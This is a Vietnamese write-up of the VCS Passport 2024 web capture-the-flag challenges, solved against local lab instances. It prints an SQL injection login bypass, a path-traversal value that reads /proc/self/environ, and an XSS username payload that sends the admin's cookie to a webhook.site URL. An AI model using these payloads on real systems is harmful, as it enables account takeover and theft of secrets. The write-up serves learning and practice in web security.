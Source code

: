 ```yaml
---
title: "Writeup VCS Passpost 2024 [WEB]"
date: "2025-01-16"
excerpt: "Challenges: https://github.com/DuongHaoNika/VCS_Passport_2024_Web"
featured: "/images/viettel.jpg"
---
```


<!-- Source các challenge: https://github.com/DuongHaoNika/VCS_Passport_2024_Web -->

## Bài Web01-Flag1
Khi bấm vào link, mình thấy giao diện như sau:

![image](https://github.com/user-attachments/assets/6ff658e5-6eac-4c76-855e-a0f068b128aa)

Sau đó đọc source code thấy route /freeflag:

![image](https://github.com/user-attachments/assets/b1c152e8-ca35-4e35-af80-ddd8404476d7)

![image](https://github.com/user-attachments/assets/21719077-75c5-4f36-aa35-b99374801a54)

Sau đó thấy server trả về session như hình

![image](https://github.com/user-attachments/assets/54be6e44-c4b9-4334-b265-d18b783cbabd)

=> Có thể là jwt. Vào trang jwt.io check:

![image](https://github.com/user-attachments/assets/ddbb660a-9456-4f87-b68e-e2ca367d1aa0)

=> Flag: `VCS{Web01-Flag1-680c37cc-6147-4d08-8c11
29c91b2a50bf}`

## Bài Web01-Flag2

Sau khi đọc source code, thấy chỉ lấy được Flag02 trong trường hợp login với admin

![image](https://github.com/user-attachments/assets/818e8fed-f673-4ef0-abf5-32345153c4e0)

Trước tiên thì tìm hiểu xem cơ chế mà server xử lý login như nào

![image](https://github.com/user-attachments/assets/bee9d8e7-cfa2-4f65-83a0-729392068f35)

![image](https://github.com/user-attachments/assets/81ca0b0b-bd16-4541-afec-accf6709a5fd)

Hàm `execute` đã trực tiếp nối input của người dùng (username) vào trực tiếp câu lệnh SQL => SQLInjection
Server kiểm tra trước xem có tồn tại username không, nếu có thì lấy password đã
được hash md5 (lưu trữ) trong database, và lấy password người dùng nhập, hash md5
password đó => Kiểm tra xem 2 hash trùng nhau không => Trùng thì đăng nhập thành
công.

Hoàn toàn có thể tận dụng lỗi SQL Injection trên, union select 1 tài khoản admin
và 1 mật khẩu đã được mã hóa md5

![image](https://github.com/user-attachments/assets/a2ae19fc-82ce-494e-b830-1d75aecc975f)

Đọc source => Sử dụng SQLite3
 
Sau đó vào Burp Suite, chỉnh giá trị username như sau:

```
abc") UNION SELECT 'admin', '202cb962ac59075b964b07152d234b70'-
```

Password cung cấp: `123`

Ở đây để phần đầu username là abc, để server không tìm thấy user có username là
abc thì user phía sau được lấy => Fake được user admin

![image](https://github.com/user-attachments/assets/8cb57872-1fec-486e-a0d1-83f3be96e85c)

![image](https://github.com/user-attachments/assets/ef41237b-cb00-4c8c-afc1-ff9bd11555ba)

## Bài Web01-Flag3

Đọc file `start.sh`:

![image](https://github.com/user-attachments/assets/46e53fbb-de7c-4790-8ba2-009809fe2cab)

Thấy `$FLAG3` chưa unset => vẫn nằm trên environ của tiến trình. 

Khi đọc src thì mình nhận ra field `title` không hề được validate:

![image](https://github.com/user-attachments/assets/8e545b71-1856-46f5-a82a-a402e49906b6)

![image](https://github.com/user-attachments/assets/203c4e08-1a96-4575-8939-eca0baa1feff)

Ý tưởng là mình sẽ inject vào field `title` để thực hiện Path Traversal, đọc file `/proc/self/environ` hoặc `/proc/1/environ`

Đầu tiên mình tạo request với CURL:

```
curl.exe -X POST http://localhost:9001/upload-meme -F "meme=@dockerfile" -F "title=title" -x 127.0.0.1:8080 -v
```

Qua Burp Suite

![image](https://github.com/user-attachments/assets/38bc81eb-70b0-439d-96e0-33f95c8f643d)

![image](https://github.com/user-attachments/assets/45623108-09a2-4dd9-a0ec-c348ae27e682)

Sửa `title` => `aaaaaaaa", "../../../../../../../proc/self/environ") --`

![image](https://github.com/user-attachments/assets/e564fe87-8482-48f5-a650-c484860ad4c4)

## Bài Web04

![image](https://github.com/user-attachments/assets/3227a8a9-8a2e-4d30-9dca-61518c18e4a3)

Đây là code python, trong index có hàm render_template() không bị SSTI (render_template_string thì bị) 

Mình để ý đến `/feedback`

![image](https://github.com/user-attachments/assets/222453fd-2a1f-44ab-8f07-87264dafe107)

`subject` được đưa vào nối chuỗi => Có thể bị Path Traversal

Sau khi xem và tìm hiểu thì hàm unidecode() có thể chuyển `\`, `\\` về `/` => bypass được '/'

Xem docker và check được user có thể ghi vào folder `errors`

![image](https://github.com/user-attachments/assets/7f9c036e-8a96-466f-a311-be5a62aeb26d)

Ý tưởng là mình sẽ Path Traversal qua field `subject` và thực hiện lệnh gì đó qua field `content`

![image](https://github.com/user-attachments/assets/c37ebc67-3173-4d4d-b015-b9456bc0aaf5)

Lấy được flag trong config (`app.config['FLAG'] = os.environ['FLAG']`)

![image](https://github.com/user-attachments/assets/32689981-3073-4d73-86ce-894a6fa7a19f)

## Bài Web06

![image](https://github.com/user-attachments/assets/7ed53f13-bee9-4c5f-a6cd-5dfa0a469572)

Khi đọc source mình để ý 2 hàm dưới

![image](https://github.com/user-attachments/assets/c438988e-213f-466a-8fad-8e184f7262ee)

Check tiếp hàm register

![image](https://github.com/user-attachments/assets/0b141994-a8e7-4603-9db5-b3e7b5da7581)

 Nhận thấy `email` và `bio` đã bị filter XSS. Còn username được lấy từ
 `session[“username”]`. Mà `username` trong hàm register lấy trực tiếp từ người dùng
 => `username` là **untrusted data**
 
 Hàm report profile => khả năng được gửi lên để admin xem
 => sẽ ra sao nếu report 1 nick có username với payload xss để cướp cookie admin
 khi xem
Đầu tiên tạo 1 user có username:
 
```
<script>fetch(`https://webhook.site/d15deb00-b0fb-43ad-a288480ba00c2c37?cookie=${document.cookie}`)</script>
```

![image](https://github.com/user-attachments/assets/0bc89596-9dae-487e-8117-3093ac458c2d)

 Sau đó tạo user khác, mục đích để lấy nick này report nick trên

![image](https://github.com/user-attachments/assets/2f4beadc-27a7-4a6e-9aa8-f6f3bd68e262)

Ví dụ: http://localhost:9006/profile/3ab3a9de-3571-48a4-bb01-257486e69f3a

![image](https://github.com/user-attachments/assets/1a474131-6ce2-4fb1-aa96-a42e1acc66ed)

Check webhook

![image](https://github.com/user-attachments/assets/f02f255e-d72a-4c14-846f-fab4d0193d3f)

Flag: `VCS{web06-2f29cec6-b8ea-4126-a2cd-a213bb332150}`
